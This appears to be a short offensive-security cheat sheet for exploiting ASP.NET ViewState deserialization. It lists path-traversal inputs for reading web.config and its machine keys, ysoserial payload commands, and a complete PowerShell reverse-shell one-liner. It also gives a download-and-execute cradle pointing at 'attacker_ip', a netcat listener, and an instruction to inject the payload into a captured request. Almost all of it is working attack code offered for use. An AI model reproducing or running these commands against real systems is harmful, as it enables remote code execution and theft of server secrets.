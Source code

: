 # ASP.NET 
Dotnet is used in the windows compatible website server. formate like  ".aspx" 
# steps
1. Find the web.config file in website
2. Grap the info like Key and Algo used
3. Generate a ysoserial payload
4. Create a web cradle  and run it
5. Back connection to us

# Find the web.config file in websites
```language
=../../web.config
=..././web.config    # some time this dots are skiped
```
# Read the web.config file
```langauge
# We Need this Info:-
1. --validationalg=""
2. --validationkey=""
3. --decryptionalg=""
4. --decryptionkey=""
```
# Generate a Ysoserial Payload
Here is the Payload Example:-
```language
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/Home/Download" --apppath="/"  --decryptionalg="AES"  --decryptionkey="xyz" --validationkey="xyz" --validationalg="HMACSHA256" -c "whoami"
```
# Create a Rev.ps1 file
Change the ip address
```language
$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
# Create a cradle
```language
nano cradle
cradle content:-  IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")

cat cradle | iconv -t utf-16le | base64 -w0; echo
```
# Generate a Reverse Shell
```language
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/Home/Download" --apppath="/"  --decryptionalg="AES"  --decryptionkey="xyz" --validationkey="xyz" --validationalg="HMACSHA256" -c "powershell -enc <encoded code here>"
```
# Start a listner
```language
rlwrap nc -lvnp 9001
```
# Injection the payload 
```language
Capture the Request paste the payload in the   " viewstate " and Execute it .
```
